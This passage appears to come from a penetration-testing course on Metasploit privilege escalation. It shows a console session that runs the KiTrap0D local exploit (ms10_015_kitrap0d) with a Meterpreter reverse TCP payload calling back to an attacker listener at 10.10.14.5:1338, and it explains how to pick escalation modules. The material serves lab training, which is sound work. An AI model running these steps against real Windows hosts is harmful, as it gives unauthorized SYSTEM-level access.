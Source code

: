 ```shell-session
[*] Post module execution completed
```

Having these results in front of us, we can easily pick one of them to test out. If the one we chose is not valid after all, move on to the next. Not all checks are 100% accurate, and not all variables are the same. Going down the list, `bypassauc_eventvwr` fails due to the IIS user not being a part of the administrator's group, which is the default and expected. The second option, `ms10_015_kitrap0d`, does the trick.

#### MSF - Local Privilege Escalation

  Introduction to MSFVenom

```shell-session
msf6 exploit(multi/handler) > search kitrap0d

Matching Modules
================

   #  Name                                     Disclosure Date  Rank   Check  Description
   -  ----                                     ---------------  ----   -----  -----------
   0  exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D


msf6 exploit(multi/handler) > use 0
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  2                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     1338             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1338

LPORT => 1338


msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3

SESSION => 3


msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.5:1338 
[*] Launching notepad to host the exploit...
```